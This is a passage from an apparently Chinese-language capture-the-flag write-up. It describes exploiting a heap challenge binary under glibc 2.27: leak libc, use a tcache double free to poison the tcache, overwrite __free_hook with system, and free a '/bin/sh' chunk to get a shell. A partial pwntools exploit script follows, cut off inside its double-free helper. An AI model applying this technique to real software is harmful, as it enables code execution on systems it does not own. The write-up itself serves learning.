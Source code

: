 那么我们便可以**利用程序的leave your name功能申请任意次数的任意大小的堆块**

同时**题目所给的libc为可以进行tcache double free的2.27版本**

![](img/78ac7a00dee150fa231eede6b5c00b08.png)

同时**在message功能中我们是可以往0x500的大chunk中写入内容的，而在程序退出时该chunk会被释放**

![](img/9e06de90e8f47300efd44f80645d4a8f.png)

那么我们便考虑**先泄露libc地址后通过double free构造tcache poisoning进行任意地址写改写__free_hook为system函数后通过message功能创建内容为"/bin/sh"的堆块后退出使得该堆块被释放即可get shell**

最后构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./pwn', env={'LD_PRELOAD':'./libc.so.6'}) 
e = ELF('./pwn')
libc = ELF('./libc.so.6')

def double_free():
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"1")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"w")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"a")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"a")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"d")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"s")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"w")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"d")
    p.recvuntil(b"Please input an order:")
```
